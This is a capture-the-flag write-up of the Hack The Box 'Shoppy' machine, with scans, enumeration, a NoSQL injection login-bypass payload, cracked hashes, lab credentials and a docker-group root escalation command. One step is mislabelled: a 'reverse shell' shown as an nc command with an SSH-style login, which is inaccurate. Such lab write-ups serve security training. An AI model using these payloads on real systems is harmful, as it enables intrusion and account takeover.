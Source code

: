 +++
author = ['Abdallah Adham']
title = "Shoppy HTB Writeup"
date = 2022-11-08
description = "This is a writeup of the Shoppy machine in Hack The Box platform."
draft = false
slug = ""

tags = [
	'HackTheBox',
    'PenTesting',  
    'Web', 
    'Exploit', 
    'Vulnerability',]

categories = [
    'Pen-Testing',  
    'Web-Security',
    ]

image = "post/Shoppy_HTB/shoppy_htb.png"
+++

---

## Scanning 

```bash
─$ nmap 10.10.11.180 -A -oN nmap.txt 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-07 08:19 EST
Stats: 0:00:05 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:07 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:50 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.29% done; ETC: 08:20 (0:00:00 remaining)
Nmap scan report for 10.10.11.180
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.82 seconds
```

## Enumeration

### Subdomain Enumeration

```bash
─$ ffuf -w Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" -u http://shoppy.htb -t 10 -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb
 :: Wordlist         : FUZZ: Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.shoppy.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200
________________________________________________

mattermost              [Status: 200, Size: 3122, Words: 141, Lines: 1, Duration: 123ms]
:: Progress: [100000/100000] :: Job [1/1] :: 64 req/sec :: Duration: [0:22:27] :: Errors: 0 ::
```
### Directory Enumeration

$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://shoppy.htb/FUZZ

images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 157ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 124ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 85ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 90ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 83ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 88ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 86ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 439ms]
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 96ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 160ms]
                        [Status: 200, Size: 2178, Words: 853, Lines: 57, Duration: 87ms]
LogIn                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 143ms]
LOGIN                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 118ms]
:: Progress: [220560/220560] :: Job [1/1] :: 443 req/sec :: Duration: [0:09:27] :: Errors: 0 ::

## Exploitation

### NoSQL Injection

```txt
username= admin'||'1==1
password= anything
```

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
 {"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
 
```


### Hash Decryption

```txt
Josh Account:

Hash: 6ebcea65320589ca4f2f1ce039975995

type: md5

result: remembermethisway
```


### SSH Reverse shell

```bash
Jaeger account:
username: jaeger
password: Sh0ppyBest@pp!

─$ nc jaeger@shoppy.htb
jaeger@shoppy.htb password: Sh0ppyBest@pp!
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  8 05:53:00 2022 from 10.10.14.38
jaeger@shoppy:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  ShoppyApp  shoppy_start.sh  Templates  user.txt  Videos

```

#### User.txt
```bash
jaeger@shoppy:~$ cat user.txt 
b43c5028ab833b5XXXXXXXXXXXXXX
```

## Privilage Escalation

### Sudo -l

```bash
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```


```bash 
jaeger@shoppy:~$ cat /home/deploy/password-manager

Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !

```

```bash
jaeger@shoppy:~$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

```bash
$ ssh deploy@shoppy.htb 
deploy@shoppy.htb password: 
Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  8 06:04:57 2022 from 10.10.14.38
$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

```bash
$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
$ cat root.txt
e65b2ace8ff78062XXXXXXXXXXXX
```

_Pwned_
![pwned](post/Shoppy_HTB/imgs/Shoppy/1.png)